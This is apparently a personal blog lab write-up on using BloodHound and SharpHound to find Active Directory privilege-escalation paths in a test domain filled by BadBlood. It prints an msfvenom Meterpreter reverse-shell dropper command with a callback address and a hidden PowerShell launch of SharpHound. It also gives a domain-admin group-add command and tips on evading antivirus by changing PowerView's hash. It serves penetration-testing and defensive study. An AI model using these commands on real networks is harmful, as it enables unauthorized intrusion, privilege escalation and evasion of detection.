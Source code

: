 # Bloodhound
### What is it?
Bloodhound describes their product as using graph theory to reveal hidden and unintended links between users and groups that makes lateral movement easier for attackers. Naturally this is fantastic for defenders as well since you can view these paths and preemptively close them off or create alerting around when they're traversed.

### Setting up an AD environment with Badblood
First things first, I do not have a thousand person company with which to test active directory relationships. I also don't want to spend hours upon hours creating this by hand. Thankfully, someone else also didn't want to do this and so automated it! Enter Badblood. This is a Powershell script that can be used to fill an AD environment with randomness. Thousands of users and groups and relations with which to test and play around with. This can be downloaded from [their Github page](https://github.com/davidprowe/BadBlood), and running it is as simple as launching an admin Powershell window, navigating to the folder, setting the execution policy to unrestricted with ```set-executionpolicy unrestricted```, and then launching it with ```.\Invoke-badblood.ps1```.

![Upgraded AD](/assets/img/bloodhound/upgraded-ad-badblood.png)

Now this is an AD environment!

### Running Bloodhound
For this example, we'll be running Bloodhound from our Kali machine, emulating the attacker. The first step is to install neo4j through ```sudo apt install neo4j``` - this is needed as it is our graph database management system. Start it with ```sudo neo4j start``` and after waiting a minute, browse to ```http:localhost:7474``` and login with the username and password neo4j/neo4j. Set a new password here to whatever you want, and we're now ready to install Bloodhound. Just like before, we'll install this with ```sudo apt install bloodhound``` and start it with ```sudo bloodhound```. You should see the Bloodhound screen popup with similar to this.

![Bloodhound](/assets/img/bloodhound/bloodhound-login.png)

This is great and all, but our database is empty. There are no complicated AD relationships to untangle. So let's change that. We could just generate random data for a DB with a provided Python script, or we could practice taking that data from a DC.

### Enter SharpHound
Sharphound is a .NET executable that, when run, uses LDAP to collect information on all OU's, computers, accounts, and groups, as well as the links between them. This can uncover a lot of otherwise impossible to discover links between groups and users. We can run SharpHound from our C2 in order to generate some data for BloodHound. For this, we will be running Sharphound from a Metasploit console just for ease of reproduction - it's free and everyone has a copy! First, we'll use msfvenom in order to generate the staged dropper.

```
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.1.50 lport=443 -f exe > dropper.exe
```
Then, we'll host a listener through Metasploit with the ```multi/handler```.
![Meterpreter](/assets/img/bloodhound/meterpreter-listener.png)

Once started, we're ready for the staged dropper to connect back and start our session. Upload Sharphound to the victim through ```upload SharpHound.exe``` and run it with ```execute -f SharpHound.exe```. This will start a new process and pop a very obvious shell window on the victim machine that shows Sharphound executing.
![SharpHound](/assets/img/bloodhound/running-sharphound.png)
This can be hidden by first dropping into a shell with ```shell``` and then running SharpHound through ```PowerShell.exe -WindowStyle hidden C:\Users\matt\Downloads\SharpHound.exe```. Finally, grab the output from Sharphound which is a zip file with ```download <filename>```.

### What info is gleaned?
Drag and drop this zip into Bloodhound and we're ready. Upon first examination of the data in Bloodhound, it's a huge mess.
![A mess](/assets/img/bloodhound/bloodhound-getting-admin.png)
However, within this, we can identify some interesting lateral movement paths that bring us to domain admin.
![Path to DA](/assets/img/bloodhound/bloodhound-path-to-da.png)
If we then focus in on one path only, we can see that there exists a number of group chains that connects the unprivileged account of Roger Lowery to Ellen Hale.
![Example path](/assets/img/bloodhound/bloodhound-path-to-da-longest-path.png)
Let's see how this looks in AD to get an idea of the path that Bloodhound has identified.
![AD Comparison](/assets/img/bloodhound/ad-comparison.png)
This is odd. We can see the group memberships flowing from Roger up through LA-CAS-DISTLIST1 but where is this link to KA-COC-ADMINGROUP1 coming from? The answer is the AD permission GenericAll. GenericAll grants the group full permission over the object, much like Domain Admin.

![EA](/assets/img/bloodhound/effective-access.png)

They have all permissions possible. This is outlined in the security tab of the AD object as an extra set of permissions that are granted. And not only does this group we're looking at have GenericAll permissions to another group, that next group has GenericAll permissions to the Domain Admin Ellen Hale, giving us our attack path. This is what makes Bloodhound stand out, finding things like these obscure permission settings that are not immediately obvious.

Helpfully, Bloodhound gives us the commands that we need to run in order to abuse this group relationship. You can see these by right-clicking the attack path and selecting help, then going to the "Abuse Info" tab.
![Abuse Info](/assets/img/bloodhound/bloodhound-help.png)

### Opsec considerations

SharpHound is designed to blend in with normal AD traffic, but there are certain key details you can hunt for. Event ID 5156 is generated en masse in the security logs when SharpHound starts, querying LDAP.

![AD](/assets/img/bloodhound/ad-event-5156.png)

Another thing to consider is the commands that are suggested in the attack path. They are the "easiest" ways to perform the privilege escalation, but they are also *noisy* and that attracts attention. Bloodhound recommends importing PowerView to the endpoint in order to perform a lot of privilege escalation and, while this will create less alerts compared to just running ```net group "Domain Admins" userName /add /domain```, PowerView gets detected very quickly. This can be mitigated to a degree by changing the hash, reducing the amount of engines statically detecting it. But there's still a high risk at run time that the commands will raise flags.

![VT](/assets/img/bloodhound/powersploit-updated-hash.png)
